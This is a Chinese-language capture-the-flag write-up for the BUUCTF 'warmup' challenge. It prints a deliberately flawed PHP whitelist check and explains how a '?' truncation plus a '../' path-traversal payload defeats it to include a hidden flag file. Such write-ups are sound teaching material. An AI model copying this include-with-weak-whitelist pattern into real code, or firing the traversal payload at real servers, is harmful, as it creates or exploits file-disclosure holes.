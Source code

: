 # BUUCTF warmup
## 题目描述
![93d23e5c9a4715ee78490440ff4e4993.png](../_resources/93d23e5c9a4715ee78490440ff4e4993.png)

## 解题思路
先看看源码
![d2b62986ffacf2aff8eb8952d7fa4465.png](../_resources/d2b62986ffacf2aff8eb8952d7fa4465.png)
发现有个source.php
查看source.php的源码：
	![df03d4e76b8353432d9693ca386beb19.png](../_resources/df03d4e76b8353432d9693ca386beb19.png)
	
```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```
查看hint.php
发现![c4d8c0adc475f1a379ea63a397825d5c.png](../_resources/c4d8c0adc475f1a379ea63a397825d5c.png)
flag应该在 `ffffllllaaaagggg` 中 
仔细审计这段代码：
```
第一个if语句对变量进行检验，要求$page为字符串，否则返回false
第二个if语句判断$page是否存在于$whitelist数组中，存在则返回true
第三个if语句判断$page中?之前的字符串是否存在于$whitelist数组中，存在则返回true
第四个if语句判断$page参数url解密后的$_page中?之前的字符串是否存在于$whitelist数组中，存在则返回true
都不满足，最后返回false
```
从中可以看出，只需要任意一个if返回true即可。
第二个语句直接判断$page，不可用
第一个if语句只要满足了外部函数的if语句这个就不会成立，所以不用管
第四个if语句事多余的，因为只要第三个if语句成立，就会返回true。所以关键在于绕过第三个if。仔细看第三个if：
```php
$_page = mb_substr(//该代码表示截取$page中'?'前部分，若无则截取整个$page
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
if (in_array($_page, $whitelist)) {//若$_page变量存在于$whitelist数组中
            return true;
        }
```
这个时候如果我们在file内容中加入?，就能实现截断的效果，这个时候page将会验证?前方的str是否包含在array中，因此就能实现checkFile函数的绕过。
这个时候一定能过checkFile函数。
但是我们的include文件读取函数却是直接将file进行了读取，这个时候file的内容是无效的，因此什么东西也读不出来。
比如我们如果构造`source.php?ffffllllaaaagggg`
虽然能绕过，但是最后的include函数就不能正确执行，读取不到ffffllllaaaagggg。

这个时候我们就要用到一个关键符号：/
例如：`include 'source.php/flag.txt'`
`source.php`无法被正确读取，这个时候/后面的flag.txt就会被include函数读取并解析
因此我们可以构建payload：
`?file=source.php?/ffffllllaaaagggg`
不过啥反应都没有，我们尝试往上一层目录查找。
最终翻了四层之后，找到了flag，对应的payload为：
`?file=source.php?../../../../../ffffllllaaaagggg`




